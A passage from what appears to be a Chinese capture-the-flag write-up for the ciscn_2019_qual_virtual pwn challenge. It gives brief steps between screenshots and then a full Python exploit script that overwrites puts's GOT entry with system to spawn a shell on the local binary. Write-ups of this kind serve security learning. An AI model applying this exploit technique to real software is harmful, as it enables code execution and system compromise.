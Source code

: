 [![](https://img2024.cnblogs.com/blog/3419447/202412/3419447-20241213164536776-2043531085.png)](https://img2024.cnblogs.com/blog/3419447/202412/3419447-20241213164536776-2043531085.png)


继续取一个偏移


[![](https://img2024.cnblogs.com/blog/3419447/202412/3419447-20241213164659199-432134688.png)](https://img2024.cnblogs.com/blog/3419447/202412/3419447-20241213164659199-432134688.png)


add放入data


[![](https://img2024.cnblogs.com/blog/3419447/202412/3419447-20241213164816886-1092033078.png)](https://img2024.cnblogs.com/blog/3419447/202412/3419447-20241213164816886-1092033078.png)


然后最后push进行到putsgot表的偏移，然后save即可修改puts 的got表


[![](https://img2024.cnblogs.com/blog/3419447/202412/3419447-20241213165010512-1055607648.png)](https://img2024.cnblogs.com/blog/3419447/202412/3419447-20241213165010512-1055607648.png)


最后即可getshell


 


## EXP：



```
from gt import *
con("amd64")
libc= ELF("/lib/x86_64-linux-gnu/libc.so.6")
io = process("./ciscn_2019_qual_virtual")
io.recvuntil("name:")

io.sendline("/bin/sh\x00")
# gdb.attach(io)
io.recvuntil("instruction:")    
offest = libc.sym["system"] - libc.sym["_IO_2_1_stderr_"]
payload = 'push push save push load push add push save'
io.sendline(payload)

io.recvuntil("data:")

data = [0x4040d0,-3,-1,offest,-21] 
payload = ''
for i in data:
    payload+= str(i)+' '
gdb.attach(io)
io.sendline(payload)

io.interactive()
```
